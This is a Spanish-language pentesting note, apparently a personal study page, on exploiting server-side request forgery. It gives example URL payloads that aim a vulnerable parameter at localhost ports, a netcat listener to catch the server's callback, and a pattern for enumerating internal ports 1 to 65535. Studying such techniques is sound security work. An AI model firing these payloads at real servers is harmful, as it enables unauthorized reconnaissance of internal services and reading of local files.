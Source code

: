 A veces se puede probar en la url.

```bash
ssrf.php?url=http://127.0.0.1:22
ssrf.php?url=http://127.0.0.1:80
ssrf.php?url=http://127.0.0.1:443
```

## EXPLOTACION BASICA

### POC SSRF

Imaginemos que encontramos una pagina como esta:

![[Pasted image 20230107215556.png]]

a traves de la variable GET `q` parece que carga contenido HTML, este es un vector para probar si el parametro es vulnerable a SSRF.

>[!tip]
>Tenga en cuenta que obtener archivos HTML remotos puede conducir a Reflected XSS.

Nos colocamos en escucha por netcat y colocamos nuestra IP en la variable:

```bash
nc -lvnp 4545
```

![[Pasted image 20230107215909.png]]

tenemos una respuesta:

![[Pasted image 20230107215932.png]]

podemos ver en la respuesta que el servidor web esta usando la libreria de python **urllib** para realizar la paticion contra nosotros.

### LECTURA DE ARCHIVOS LOCALES

![[Pasted image 20230107220312.png]]

### ENUMERACION DE PUERTOS INTERNOS

Recuerde, solo tenemos dos puertos abiertos en el servidor de destino. Sin embargo, existe la posibilidad de que existan aplicaciones internas y escuchen solo en localhost. Podemos con Burpsuite intruder enumerar puertos locales:

```bash
?q=http://127.0.0.1:1
?q=http://127.0.0.1:2
?q=http://127.0.0.1:3
...
```

del 1 al 65535 (o puede ser menos)
